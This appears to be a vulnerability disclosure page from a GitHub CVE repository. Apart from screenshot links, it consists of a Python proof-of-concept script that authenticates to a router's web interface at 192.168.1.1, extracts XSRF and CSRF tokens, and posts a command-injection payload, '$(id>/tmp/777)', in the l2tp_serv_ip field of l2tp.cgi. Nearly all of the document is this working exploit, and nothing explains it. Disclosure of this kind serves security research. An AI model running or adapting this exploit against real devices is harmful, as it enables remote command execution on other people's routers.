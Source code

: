 ![image](https://github.com/jiangly027/CVE/assets/106513072/2bfa4a58-44ab-440c-b3b5-bde4029eebf4)
<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702717343086-ce9881cb-6d3d-4817-b6da-10ac740cab4e.png" alt="图片alt" title="图片title">

<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702717363437-27e1c73b-3a74-4faa-a0b9-c75991015416.png" alt="图片alt" title="图片title">
<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702705433346-beee11f2-3550-499a-904a-0454fd5d032d.png" alt="图片alt" title="图片title">
<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702705679159-accb6729-d38c-4023-a5f4-e1c65eb30b0a.png?x-oss-process=image%2Fresize%2Cw_1031%2Climit_0" alt="图片alt" title="图片title">

<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702716601097-9373a536-f372-42b6-8d0c-232504d5cecc.png" alt="图片alt" title="图片title">

<pre>
import requests
import base64
import re

target = '192.168.1.1'
username = 'admin'
passwd = '123'
username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
cmd = "$(id>/tmp/777)"
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/BAS_l2tp.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/IPV6_disable.htm", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/l2tp.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "l2tp_serv_ip":cmd,"wan_proto": "l2tp","static_l2tp_enable":"1","l2tp_gateway":"192.168.0.1","l2tp_user_netmask":"255.255.255.0"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/VLAN_IPTV.htm", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')
</pre>

![image](https://github.com/jiangly027/CVE/assets/106513072/41784d79-3db9-411f-b3d8-07360f1245ed)
![image](https://github.com/jiangly027/CVE/assets/106513072/83daf420-79be-4ac6-92be-d9fc071a7ae9)

